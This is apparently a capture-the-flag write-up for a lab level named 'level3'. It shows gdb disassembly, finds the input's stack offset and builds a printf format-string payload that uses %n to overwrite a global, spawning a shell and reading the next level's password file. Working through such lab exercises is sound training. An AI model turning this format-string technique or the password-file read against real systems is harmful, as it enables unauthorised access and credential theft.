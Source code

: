# Level 3

## What we have

```bash 
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3

```

## Testing the program

```bash
$ ./level3
a
a
```

The program displays the input


## Learning more

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.
```

The main calls a function 'v'. 

```bash
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

We see that the value at address 0x804988c is being put in the eax container. 
This value is then compared to 64 (Ox40 in hexadecimal).

```bash
0x080484da <+54>:	mov    0x804988c,%eax
0x080484df <+59>:	cmp    $0x40,%eax
```

Using gdb we can check the name of the variable at 0x804988c

```bash
(gdb) info variables
All defined variables:
[...]
0x0804988c  m
```

If it corresponds to 64 a call to system is made.

```bash
0x08048513 <+111>:	call   0x80483c0 <system@plt>
```

We can also see a call to printf() function wich is vulnerable to exploit.

```bash
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```

## Getting access to the shell

We are going to modify the value of the variable located at 0x804988c so that it equals 64, in order for the program to launch the system to ("bin/sh"). 


### Finding where is our input

First we need to know where our input is located on the stack so we can manipulate the addresses later on. 

```bash 
$ python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
```

61616161 = "aaaa", in hexadecimal.
So our input is at the 4th slot (%4$x) in the stack. 

### Injecting m address

We want to write in the address 0x0804988c, so we pass it as little endian at the beginning of our payload. 

```bash
$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
? 200 b7fd1ac0 b7ff37d0 804988c
```

### Writing into the memory 

%n allows us to write, in an address, the number of characters that have been printed. 
```bash
printf("AAAAA%n", addr);
```
will write 5 (the number of chars before %n) to addr.


### Reaching the 64 value 

We want %n to write 64 in the address 0x804988c.

However we have already 4 characters for the address, so we only need 60 chars to reach the total. 

Final payload : 
```bash
$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
```

Explanation :
```plaintext
\x8c\x98\x04\x08 → adresse de m
"A" * 60 → padding
"%4$n" → écrit le total (64) à l'adresse au 4e emplacement dans la stack (notre adresse injectée)
```

```bash
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami 
level4
cat /home/user/level4/.pass
***************************************
```